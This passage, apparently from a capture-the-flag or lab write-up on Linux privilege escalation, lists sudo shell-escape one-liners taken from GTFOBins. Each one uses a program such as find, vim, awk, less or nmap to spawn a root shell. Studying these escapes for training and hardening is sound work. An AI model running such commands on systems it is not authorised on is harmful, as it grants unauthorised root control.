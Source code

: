 ```bash
sudo iftop
!/bin/sh
```

**find** (https://gtfobins.github.io/gtfobins/find/)

```bash
sudo find . -exec /bin/sh \; -quit
```

**nano** (https://gtfobins.github.io/gtfobins/nano/)

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

**vim** (https://gtfobins.github.io/gtfobins/vim/)

```bash
sudo vim -c ':!/bin/bash'
```

**man** (https://gtfobins.github.io/gtfobins/man/)

```bash
sudo man man
!/bin/bash
```

**awk** (https://gtfobins.github.io/gtfobins/awk/)

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

**less** (https://gtfobins.github.io/gtfobins/less/)

```bash
sudo less /etc/profile
!/bin/sh
```

**ftp** (https://gtfobins.github.io/gtfobins/ftp/)

```bash
sudo ftp
!/bin/sh
```

**nmap** (https://gtfobins.github.io/gtfobins/nmap/)

Nmap 5.00 is installed, it has the interactive mode:

```bash
sudo nmap --interactive
nmap> !sh
```

# [Task 7] Sudo - Environment Variables 
